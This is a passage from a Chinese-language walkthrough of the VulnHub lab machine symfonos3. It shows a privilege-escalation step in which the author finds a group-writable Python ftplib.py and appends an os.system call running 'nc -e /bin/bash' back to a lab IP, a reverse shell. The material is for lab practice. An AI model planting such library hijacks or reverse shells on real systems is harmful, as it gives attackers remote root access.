 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos3/28.png)

改这个库试试
```bash
find / -name ftplib*
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos3/29.png)

```bash
cd /usr/lib/python2.7/
ls -l | grep ftplib.py
```

root 和 god 组可以修改,hades 正好是 god 组的 :)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos3/30.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos3/31.png)

```bash
vi /usr/lib/python2.7/ftplib.py

os.system("nc -nv 192.168.141.134 5555 -e /bin/bash")
```
